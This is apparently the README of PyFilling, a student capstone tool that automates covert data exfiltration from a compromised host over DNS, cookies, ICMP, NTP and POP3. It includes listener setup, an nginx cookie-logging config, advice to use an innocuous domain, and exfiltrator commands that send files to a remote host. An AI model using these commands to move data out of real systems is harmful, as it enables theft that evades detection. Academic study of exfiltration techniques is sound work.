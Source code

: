 # PyFilling
PyFilling is the Capstone project of  @supermcpeanut, @a-levsky, & @tchrinder. PyFilling was designed to explore the possibility of developing an automated tool that can identify the optimal time, protocol, and packet size to perform data exfiltration on a compromised host based on its normal network traffic.

## Quick Overview
![Alt text](InternalStructure_PyFilling.jpg?raw=true "Internal Structure Overview")

*  Exfiltration Protocols
    *  DNS
    *  HTTP Cookie
    *  HTTPS Cookie
    *  ICMP
    *  NTP
    *  POP3 Authentication

## Installation & Preparation
In order to preform the exfiltration, the following steps are required:

- We wanted to use as few python servers as possible, as such we relied on Nginx to capture incoming cookies
    *  A simple method of installing and configuring Nginx on Ubuntu can be found [here](https://www.digitalocean.com/community/tutorials/how-to-install-nginx-on-ubuntu-16-04 "Digital Ocean Setup")

    *  If Nginx is used the following changes to etc/nginx/nginx.conf are required
```bash
    ##
    # Logging Settings
    ##
    log_format main '"cookies=$http_cookie;"';
    access_log /var/log/nginx/access.log main;
    error_log /var/log/nginx/error.log;
```
*It should be noted that this change will make the access_log only log cookies.*

*Addtionally to properly use our HTTPS exfiltration the server should have a certificate and an innocuous domain name.*

*Certbot makes it trivial to register a cert, found* [here](https://certbot.eff.org/ "Certbot Setup")

## Running the listeners
All the Protocol listeners/servers need to be setup.
```bash
# serve.py:
# "-a", "--address": Used to specify the IP address or domain name
# "-i", "--protocol": Used to specify the listener protocol
# "-s", "--size": Not used anymore, previously used to specify the size of the receiving
python3 serve.py -a "<IP or Domain Name>" -i "DNS"
python3 serve.py -a "<IP or Domain Name>" -i "NTP"
python3 serve.py -a "<IP or Domain Name>" -i "POP3"
python3 serve.py -a "<IP or Domain Name>" -i "ICMP"
```

## Performing exfiltration
Performing exfiltration can be done in one of two methods:

*  By using PAS to conduct packet analysis and automate the exfiltration
```python
pip install -r requirements.txt
./pas.py
```
*  or by using the exfiltrator independently of PAS
```bash
# "-d", "--destination": Used to specify the destination IP address or domain name which the exfiltrated data will be sent too.
# "-f", "--file": Used to specify the file that will be exfiltrated
# "-i", "--protocol": Used to specify the protocol used during exfiltration
# "-s", "--size": Used to specify the size of each packet to be sent
./exfiltrator.exe -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
python3 exfiltrator.py -d "<IP or Domain Name>" -f "<filename>" -i "protocol" -s <size>
```

## Acknowledgements
We wanted to thank the following people:

*  Anyone who had to put up with the stress of Adam slowly losing his mind. 
*  Nick for the general guidance & support. 
*  The works of @ytisf made building the exfiltration modules simpler.
*  De Mello Palheta for the immeasurable number of 4-shot americanos consumed.
*  Maker Pizza for the numerous pizzas eaten.
*  Lastly, @bitofeverything for coming up with the name PyFilling.  

## Disclaimer
Please do not use this for malicious purposes! We did this as students to see if it was possible
